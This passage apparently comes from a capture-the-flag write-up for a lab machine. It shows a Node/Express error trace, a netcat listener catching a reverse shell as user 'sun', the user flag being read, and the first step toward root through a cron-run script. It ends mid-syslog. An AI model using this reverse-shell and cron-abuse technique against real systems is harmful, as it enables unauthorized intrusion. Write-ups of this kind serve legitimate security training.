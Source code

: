 Connection: keep-alive

<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>SyntaxError: Unexpected identifier<br> &nbsp; &nbsp;at /home/sun/server.js:13:29<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/home/sun/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at next (/home/sun/node_modules/express/lib/router/route.js:137:13)<br> &nbsp; &nbsp;at Route.dispatch (/home/sun/node_modules/express/lib/router/route.js:112:3)<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/home/sun/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at /home/sun/node_modules/express/lib/router/index.js:281:22<br> &nbsp; &nbsp;at Function.process_params (/home/sun/node_modules/express/lib/router/index.js:335:12)<br> &nbsp; &nbsp;at next (/home/sun/node_modules/express/lib/router/index.js:275:10)<br> &nbsp; &nbsp;at cookieParser (/home/sun/node_modules/cookie-parser/index.js:70:5)<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/home/sun/node_modules/express/lib/router/layer.js:95:5)</pre>
</body>
</html>
{% endhighlight %}

Now we got a reverse shell as a user "sun".
{% highlight console %}
root@kali:~# nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.30] from (UNKNOWN) [10.10.10.85] 56418
/bin/sh: 0: can't access tty; job control turned off
$ whoami
sun
{% endhighlight %}

user.txt is in the directory "/home/sun/Documents".
{% highlight console %}
$ pwd
/home/sun/Documents

$ ls
script.py
user.txt

$ cat user.txt
9a093cd22ce86b7f41db4116e80d0b0f
{% endhighlight %}

### 3. Getting Root

In the syslog, we can confirm that cron is running "/home/sun/Documents/script.py" in every 5 minutes.
{% highlight console %}
$ tail syslog
Oct  5 02:05:46 sun gnome-session[3685]:     at Layer.handle [as handle_request] (/home/sun/node_modules/express/lib/router/layer.js:95:5)
Oct  5 02:05:46 sun gnome-session[3685]:     at next (/home/sun/node_modules/express/lib/router/route.js:137:13)
Oct  5 02:05:46 sun gnome-session[3685]:     at Route.dispatch (/home/sun/node_modules/express/lib/router/route.js:112:3)
Oct  5 02:05:46 sun gnome-session[3685]:     at Layer.handle [as handle_request] (/home/sun/node_modules/express/lib/router/layer.js:95:5)
Oct  5 02:05:46 sun gnome-session[3685]:     at /home/sun/node_modules/express/lib/router/index.js:281:22
Oct  5 02:05:46 sun gnome-session[3685]:     at Function.process_params (/home/sun/node_modules/express/lib/router/index.js:335:12)
Oct  5 02:05:46 sun gnome-session[3685]:     at next (/home/sun/node_modules/express/lib/router/index.js:275:10)